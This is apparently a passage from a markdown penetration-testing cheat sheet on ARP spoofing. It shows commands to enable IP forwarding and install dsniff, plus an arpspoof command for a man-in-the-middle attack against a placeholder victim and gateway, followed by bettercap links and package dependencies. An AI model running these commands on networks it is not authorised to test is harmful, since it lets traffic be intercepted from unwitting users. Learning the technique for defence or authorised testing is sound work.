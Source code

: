 
### ARP Spoofing

Enable IP forwarding:

```
$ sudo sysctl -w net.ipv4.ip_forward=1
(sudo sh -c 'echo 1 > /proc/sys/net/ipv4/ip_forward')
(edit /etc/sysctl.conf "net.ipv4.ip_forward = 1" to make it permanent)
```


#### arpspoof [dsniff]

* [https://github.com/tecknicaltom/dsniff](https://github.com/tecknicaltom/dsniff)

Install:

```
$ sudo apt install dsniff -y
```

Fire up the attack with Wireshark (filter `ip.src == VICTIM_10.0.0.5`) running:

```
$ sudo arpspoof -c both -t VICTIM_10.0.0.5 GATEWAY_10.0.0.1
```


#### bettercap

* [https://github.com/bettercap/bettercap](https://github.com/bettercap/bettercap)
* [https://www.bettercap.org/modules/](https://www.bettercap.org/modules/)
* [https://linuxhint.com/install-bettercap-on-ubuntu-18-04-and-use-the-events-stream/](https://linuxhint.com/install-bettercap-on-ubuntu-18-04-and-use-the-events-stream/)
* [https://hackernoon.com/man-in-the-middle-attack-using-bettercap-framework-hd783wzy](https://hackernoon.com/man-in-the-middle-attack-using-bettercap-framework-hd783wzy)
* [https://www.cyberpunk.rs/bettercap-usage-examples-overview-custom-setup-caplets](https://www.cyberpunk.rs/bettercap-usage-examples-overview-custom-setup-caplets)

Deb dependencies (Ubuntu 18.04 LTS):

* [libpcap0.8_1.8.1-6ubuntu1_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-main-amd64/libpcap0.8_1.8.1-6ubuntu1_amd64.deb.html)
* [libpcap0.8-dev_1.8.1-6ubuntu1_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-main-amd64/libpcap0.8-dev_1.8.1-6ubuntu1_amd64.deb.html)
* [libpcap-dev_1.8.1-6ubuntu1_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-main-amd64/libpcap-dev_1.8.1-6ubuntu1_amd64.deb.html)
* [pkg-config_0.29.1-0ubuntu2_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-main-amd64/pkg-config_0.29.1-0ubuntu2_amd64.deb.html)
* [libnetfilter-queue1_1.0.2-2_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-universe-amd64/libnetfilter-queue1_1.0.2-2_amd64.deb.html)
* [libnfnetlink-dev_1.0.1-3_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-main-amd64/libnfnetlink-dev_1.0.1-3_amd64.deb.html)
* [libnetfilter-queue-dev_1.0.2-2_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-universe-amd64/libnetfilter-queue-dev_1.0.2-2_amd64.deb.html)

